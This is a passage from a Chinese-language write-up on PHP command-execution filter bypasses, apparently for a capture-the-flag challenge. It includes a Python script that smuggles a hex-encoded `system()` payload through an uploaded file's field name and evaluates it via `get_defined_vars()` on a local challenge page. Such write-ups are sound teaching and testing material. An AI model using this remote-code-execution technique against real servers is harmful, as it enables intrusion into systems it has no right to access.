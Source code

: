 >
> ```
> $_GET
> $_POST
> $_COOKIE
> ```
>
> 
>
> 做全局过滤，所以我们可以尝试从`$_FILES`下手，这就需要我们自己写一个上传
> [![img](PHP命令执行.assets/2019-03-29-13-30-34.png)](https://skysec.top/images/2019-03-29-13-30-34.png)
> 可以发现空格会被替换成`_`，为防止干扰我们用hex编码进行RCE
> [![img](PHP命令执行.assets/2019-03-29-13-31-48.png)](https://skysec.top/images/2019-03-29-13-31-48.png)
> 最终脚本如下
>
> ```
> import requests
> from io import BytesIO
> 
> payload = "system('ls /tmp');".encode('hex')
> files = {
>   payload: BytesIO('sky cool!')
> }
> 
> r = requests.post('http://localhost/skyskysky.php?code=eval(hex2bin(array_rand(end(get_defined_vars()))));', files=files, allow_redirects=False)
> 
> print r.content
> ```
>
> 
>
> ### 法四：session_id()
>
> 之前我们使用`$_FILES`下手，其实这里还能从`$_COOKIE`下手：
> 我们有函数